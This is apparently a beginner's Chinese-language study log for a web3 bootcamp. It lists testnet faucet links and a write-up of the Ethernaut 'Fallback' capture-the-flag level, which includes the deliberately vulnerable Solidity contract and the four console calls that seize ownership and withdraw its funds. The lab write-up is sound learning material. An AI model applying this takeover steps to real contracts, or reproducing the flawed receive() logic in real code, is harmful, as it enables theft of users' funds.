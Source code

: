 ```yaml
---
timezone: Asia/Shanghai
---
```


# {blockpanda}

1. 自我介绍 - web3新兵

2. 你认为你会完成本次残酷学习吗？- 会

## Notes

<!-- Content_START -->

### 2024.08.29

学习内容
1.安装foundry  
2.领水 https://www.alchemy.com/faucets/ethereum-sepolia     
  https://faucets.chain.link/sepolia    
  https://faucet.chainstack.com/sepolia-testnet-faucet  
3.Ethernaut CTF - Hello Ethernaut 根据教程完成操作  
4.Ethernaut CTF - 暂未完成  

### 2024.08.30
#### 题目
````
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    //公共映射，记录了每个地址捐赠的金额
    mapping(address => uint256) public contributions;
    //公开地址变量，记录合约的拥有者的地址
    address public owner;
    
    //构造函数，合约部署时自动执行，合约部署者设置为初始拥有者。
    //给予部署者 1000 ether 的初始贡献
    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //修饰器确保只有合约拥有者才能执行某些函数,否则弹出提示
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    //捐赠函数，1.require条件为假时，交易回滚，msg.value是随当前交易发送的ETH数量
    //2.更新调用者的捐赠总额
    //3.如果调用者贡献超过当前拥有者，则调用者成为拥有者
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    //允许用户查看自己的贡献总额
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    //只有拥有者可以提现，将所有ETH转移到拥有者
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    //receive函数，接收ETH时触发，要求数量大于0，且之前有捐赠者；调用者成为合约拥有者。
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
````

#### 解题思路

很明显，漏洞在contribute函数，但数量要超过1000ETH，且每次发送小于0.001，实现起来不现实  
那么只能通过receive（）来实现，即直接转账且不附加任何数据  

#### 解题过程  
1.contract.contribute({value: 1}) //首先使贡献值大于0  
2.contract.sendTransaction({value: 1}) //触发fallback函数  
3.contract.owner（）//查看合约拥有者  
4.contract.withdraw() //提现到自己的地址  


### 2024.09.01

- [Ethernaut 第三题](/Writeup/blockpanda/readme.md/09.01-ethernaut第三题.md)
<!-- Content_END -->
